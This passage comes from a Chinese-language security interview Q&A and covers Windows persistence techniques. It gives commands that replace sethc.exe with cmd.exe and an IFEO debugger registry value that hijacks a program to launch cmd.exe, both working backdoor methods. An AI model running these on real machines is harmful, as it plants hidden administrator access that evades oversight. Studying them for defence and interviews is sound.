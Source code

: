 11.  fastcgi：（查看是否开启fastcgi和fastcgi的版本，可能导致解析漏洞、远程命令执行、任意文件读取等问题）

## Q：有没有了解过权限维持

>   [Windows权限维持总结](https://xz.aliyun.com/t/9718)
>
>   [Windows权限维持整理](https://xz.aliyun.com/t/8095)
>
>   [权限维持篇](https://bypass007.github.io/Emergency-Response-Notes/privilege/)
>
>   [windows中常见后门持久化方法总结](https://xz.aliyun.com/t/6461)

### 0x1 辅助功能镜像劫持

先前的版本可以直接更换：

```
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器 C:\Windows\System32\DisplaySwitch.exe
应用切换器： C:\Windows\System32\AtBroker.exe
```

直接命令行：

```sh
copy c:\windows\system32\sethc.ex c:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

高版本需要IFEO。所谓的IFEO就是Image File Execution Options，直译过来就是映像劫持。它又被称为“重定向劫持”（Redirection Hijack），它和“映像劫持”（Image Hijack，或IFEO Hijack）只是称呼不同，实际上都是一样的技术手段。白话来讲就是做某个操作的时候被拦截下来，干了别的事。

在iexplorer.exe中加键值对：debugger  c:\windows\system32\cmd.exe

![image-20220308172433830](README/image-20220308172433830.png)
